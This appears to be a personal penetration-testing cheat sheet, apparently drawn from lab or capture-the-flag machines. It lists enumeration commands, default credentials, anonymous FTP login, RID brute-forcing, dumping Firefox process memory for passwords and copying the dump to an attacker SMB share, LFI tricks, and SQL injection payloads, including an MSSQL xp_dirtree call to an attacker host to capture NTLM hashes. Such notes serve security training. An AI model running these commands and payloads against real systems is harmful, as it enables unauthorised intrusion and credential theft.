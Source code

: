 # Enumeration
---
## Discovering Ports / Information
- Ping machine to Get info:
	- If `rrt` is similar to 128, likely windows
- Start nmap scan on common ports with scripts and services. This can **take time on Windows**:
	-  `nmap -sV -sC 10.10.10.95 -Pn -T4 10.10.10.95 -oN nmap/nmap_common`
- Run `rustscan` to discover open ports quickly:
	- `rustscan -a 10.10.10.95 | tee nmap/rustscan`
## Vulnerabilities
- Search for discovered service Version on google:
	- `Service Name + Version + Exploit`
	- `Service Name + Version + Exploit + Github POC`
- Using searchsploit: `searchsploit name version`
- On msfconsole: `search service version`

## Default Credentials
- Search Default Creds: `creds search tomcat`
- Apache Tomcat : `admin`: `s3cret`

## Directory Busting
- Bruteforce common directories and extensions first:
	- `gobuster dir -u http://10.129.203.7/ -w /usr/share/wordlists/dirb/common.txt  -t 100 -x txt,zip`
- Gobuster again with bigger wordlist:
	- ` gobuster dir -u http://10.10.10.95/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 100 -x txt,zip,php`

# Services Interaction
---
- FTP/20-21:
	- We can login as **anonymous so ALWAYS try that**:
		- `ftp anonymous@10.10.10.10`-> `password: anonymous`
	- Sometimes, we can also **login as users without any password, so try that too** if some user name is known
- Searching for Services - Windows (partially known):
	- `Get-Service | Where-Object { $_.DisplayName -like "*UniFi*" }`
	- If we do not have permissions to enumerate services, we can try **searching in registries where services are stored**:
		- `Set-Location 'HKLM:\SYSTEM\CurrentControlSet\Services'`
		- `get-childitem .`
			- OR
		- `Get-ChildItem "HKLM:\SYSTEM\CurrentControlSet\Services" | Where-Object { $_.Name -match "unifi" }`
## Enumerating usernames
- **On Windows**:
	- We can **bruteforce RIDs** (if we have some valid windows credentials) to discover more users:
		- `netexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute `

## Enumerating Credentials
- **On Windows**:
	- **Processes**
		- We can **list the processes** using:
			- `Get-Process`, 
			- `Get-Process -Name "explorer", "chrome*"`, 
			- `Get-Process -Id 1234, 5678`
		- We can **dump processes** using `procdump`:
			- `.\procdump.exe -ma 6320 firefox.dmp -accepteula`
			- This can reveal passwords
			- Copy on smbserver using:
				- `Copy-Item .\firefox.dmp \\10.10.16.3\share\firefox.dmp`

# Password Bruteforcing
- Try the **==possible passwords / found list on ALL the users==** even if you think they belong to only one user

## LFI
- **For windows**
	-  When trying to include remote file, use SMB server instead of http server
	- Use **backslashes `\` instead of front-slashes** `/`. For ex:- `http://10.10.10.151/blog/?lang=\Windows\System32\drivers\etc\hosts`
	- We **don't have to include `C:\\`** just use `\` to Automatically get there

## SQL Injeciton
- Look for injection fields in URL, for eg:
	- `http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=2`
- Try basic injections with `'` single quotes and using logical operators:
	- `http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=2 AND 1=1`

- **MSSQL Specific**
	- We can **use `exec` directly** in query to get **NTLM hash from responder:**	
		- `Product.aspx?ProductSubCategoryId=18;exec master..xp_dirtree '//10.10.16.2/share'`
			- OR 
		- `Product.aspx?ProductSubCategoryId=18;exec master..xp_dirtree '//10.10.16.2/share/file'`
		- Don't forget to **URL encode** and to **try with double quotes**

# Binaries
- Use **`strings` to find any hidden information,** password, key, etc